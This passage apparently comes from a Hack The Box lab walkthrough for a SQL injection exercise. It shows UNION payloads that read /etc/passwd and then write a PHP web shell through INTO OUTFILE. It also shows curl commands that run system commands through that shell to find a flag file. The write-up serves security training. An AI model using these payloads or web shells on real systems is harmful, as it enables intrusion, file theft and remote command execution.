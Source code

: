 With the `FILE` privilege granted to `root`, students can attempt to read the `/etc/passwd` file from the backend server using the `LOAD_FILE` function, injecting it in any column other than the first (the second column will be utilized):

```sql
' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4, 5-- -
```

![[HTB Solutions/CPTS/z. images/0bf55610b68db9477899f2ea40d4b705_MD5.jpg]]

Subsequently, students need to make sure that the MySQL global variable `secure_file_priv` is not enabled:

```sql
' UNION SELECT 1, variable_name, variable_value, 4, 5 FROM information_schema.global_variables WHERE variable_name="secure_file_priv" -- -
```

![[HTB Solutions/CPTS/z. images/300560907e3de0a19ba82d0210e16324_MD5.jpg]]

Since the value for the variable `SECURE_FILE_PRIV` is empty, the user `root` can read and write files to any directory in the entire file system. Therefore, students now need to write a PHP web shell `shell.php` using `INTO OUTFILE` to the directory `/var/www/html/dashboard/` (using the directory `/var/www/html/` instead will result in `Errcode: 13 "Permission Denied"`):

```sql
' UNION SELECT "",'<?php system($_REQUEST["cmd"]); ?>', "", "", "" INTO OUTFILE '/var/www/html/dashboard/shell.php'-- -
```

![[HTB Solutions/CPTS/z. images/c859393aef0d362d7139f9729bd926c8_MD5.jpg]]

With no error messages received, the web shell should be written to the backend server successfully. Therefore, students need to utilize `cURL` to invoke the web shell, passing commands to the URL parameter `cmd` (or any other parameter name chosen). First, students need to list all the files that are in the root directory `/` (deleting the first two lines, as they are unwanted), making sure to use `+` for the space character:

```shell
curl -w "\n" -s http://STMIP:STMPO/dashboard/shell.php?cmd=ls+/ | sed -e '1,2d'
```
```
┌─[us-academy-1]─[10.10.14.169]─[htb-ac413848@htb-ubuyae6zow]─[~]
└──╼ [★]$ curl -w "\n" -s http://159.65.63.151:31872/dashboard/shell.php?cmd=ls+/ | sed -e '1,2d'
	bin
boot
dev
etc
flag_cae1dadcd174.txt
home
lib
<SNIP>
```

From the output, students will know that the file is named `flag_cae1dadcd174.txt` and is under the root directory, thus, they need to print its contents out with `cat`, making sure to use `+` for the space character:
